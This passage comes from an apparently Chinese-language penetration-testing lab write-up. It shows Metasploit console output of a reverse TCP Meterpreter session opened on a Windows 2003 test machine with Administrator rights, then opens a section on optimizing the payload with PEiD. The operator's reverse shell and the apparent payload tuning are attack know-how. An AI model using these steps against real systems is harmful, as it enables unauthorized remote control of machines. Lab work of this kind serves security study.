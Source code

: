 ### 第一次靶机测试：分别测试Windows 2003，Windws 7，reverse OK。

![](media/542ba22b5fc53ca130875f92d4bef49e.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.5:53
[*] Sending stage (179779 bytes) to 192.168.1.119
[*] Meterpreter session 4 opened (192.168.1.5:53 ‐> 192.168.1.119:3887) at 2019‐01‐27 14:30:27 ‐0500

meterpreter > getuid
Server username: WIN03X64\Administrator
meterpreter > 
```

### 第二次优化payload：

载入PEID  
![](media/d176f010a1d7452d445b3104d0abeadc.jpg)

